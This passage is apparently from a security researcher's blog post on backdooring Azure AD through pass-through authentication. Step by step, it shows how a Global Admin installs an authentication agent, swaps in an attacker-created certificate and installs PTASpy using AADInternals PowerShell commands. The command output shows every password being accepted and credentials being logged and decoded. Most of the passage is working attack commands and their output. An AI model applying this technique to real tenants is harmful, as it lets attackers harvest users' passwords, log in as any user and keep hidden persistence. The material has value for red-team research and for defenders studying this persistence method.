 In my older blog <a href="/post/pta-deepdive/" target="_blank">post</a>, I explained how the PTA works under the hood.

With this information Global Admin can create a backdoor to Azure AD.

In the <a href="#pass-through-authentication" target="_blank">Compromise</a> section above, Global Admin was able to register an Authenticator app and create the certificate.

To create the backdoor using PTA:

* Install the authentication agent from <a href="https://download.msappproxy.net/Subscription/00000000-0000-0000-0000-000000000000/Connector/ptaDownloadConnectorInstaller" target="_blank">here</a> to a standalone server or virtual machine. 
* Configure the agent using your own tenant (you can get a trial tenant from <a href="https://signup.microsoft.com/Signup?OfferId=B07A1127-DE83-4a6d-9F85-2C104BDAE8B4&dl=ENTERPRISEPACK" target="_blank">here</a>)
* Change the certificate to one you created during the PTA agent registration
* Install PTASpy

To change the certificate:
{{< highlight powershell >}}
# Change the PTA certificate
Set-AADIntPTACertificate -PfxFileName server1.pfx
{{< /highlight>}}
The output should be similar to the following:
```
Certification information set, remember to restart the service.
```
**Note!** After a while, Azure AD won't send password requests encrypted using the certificate of the original agent (as it is inactive). That leads to "unable to encrypt" error message. 
If this happens, you need to find out (using SysInterals Procmon or similar tool) which certificate the agent tries to use under "C:\ProgramData\Microsoft\Crypto\RSA\MachineKeys\", and give
read access to that file for "Network Service". Usually, it is the newest file.

To install PTASpy:
{{< highlight powershell >}}
# Install PTASpy
Install-AADIntPTASpy
{{< /highlight>}}
Output:
```
Are you sure you wan't to install PTASpy to this computer? Type YES to continue or CTRL+C to abort: yes
Installation successfully completed!
All passwords are now accepted and credentials collected to C:\PTASpy\PTASpy.csv
```

Now you are able to gather users' credentials, but also to log in as any user. 
{{< highlight powershell >}}
# Show the PTASpy log with decoded passwords
Get-AADIntPTASpyLog -DecodePasswords
{{< /highlight>}}
